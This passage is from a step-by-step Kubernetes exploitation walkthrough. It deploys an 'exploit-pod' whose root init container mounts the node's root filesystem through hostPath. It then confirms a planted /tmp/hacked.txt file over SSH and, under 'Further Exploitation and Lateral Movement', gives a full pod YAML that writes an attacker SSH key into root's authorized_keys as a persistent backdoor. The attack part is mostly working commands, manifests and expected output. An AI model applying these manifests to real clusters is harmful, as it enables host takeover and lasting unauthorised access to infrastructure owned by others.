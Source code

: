     *   **Explanation:** This command deploys the pod defined in `pod.yaml` to the Kubernetes cluster.
    *   **Why:** To create the pod and trigger the execution of the init container.
    *   **Expected Output:** `pod/exploit-pod created`

3.  **Verify the pod's status:**

    ```bash
    kubectl get pod exploit-pod -n default
    ```

    *   **Explanation:** This command checks the status of the deployed pod.
    *   **Why:** To ensure the pod is running or has completed its init containers.
    *   **Expected Output:**  The pod status should eventually be `Completed` or `Running`, indicating the init container has executed. If the status remains in `Init:0/1` state for a long period, there is a problem.

4.  **Check the host for the modified file:**

    You need to access the host node (e.g., via SSH).  How to access the node depends on the cloud provider or infrastructure setup.

    ```bash
    ssh <node-ip> "sudo cat /tmp/hacked.txt"  # Example using SSH.  Replace <node-ip>
    ```

    *   **Explanation:** This command connects to the node via SSH (or another method of node access) and uses `sudo` to read the `/tmp/hacked.txt` file that the init container attempted to create.
    *   **Why:** To confirm that the init container successfully modified the host filesystem.
    *   **Expected Output:** `Hacked!`

**Phase 3: Further Exploitation and Lateral Movement (Example)**

This demonstrates how to use the initial node access to gain persistent access and potentially move laterally.

1.  **Install a SSH key on the host (requires root):**

    Modify `pod.yaml` to add an SSH key to the authorized keys file.  This adds a persistent backdoor to the node.

    ```yaml
    apiVersion: v1
    kind: Pod
    metadata:
      name: exploit-pod
      namespace: default
    spec:
      initContainers:
        - name: exploit-init
          image: busybox:latest
          command: ["/bin/sh", "-c", "mkdir -p /host/root/.ssh && echo '<your-ssh-public-key>' >> /host/root/.ssh/authorized_keys && chmod 600 /host/root/.ssh/authorized_keys"]
          volumeMounts:
            - name: host-volume
              mountPath: /host
          securityContext:
            runAsUser: 0  # Running as root
      containers:
        - name: pause
          image: k8s.gcr.io/pause:latest
      volumes:
        - name: host-volume
          hostPath:
            path: /  # Mounting the root filesystem
    ```
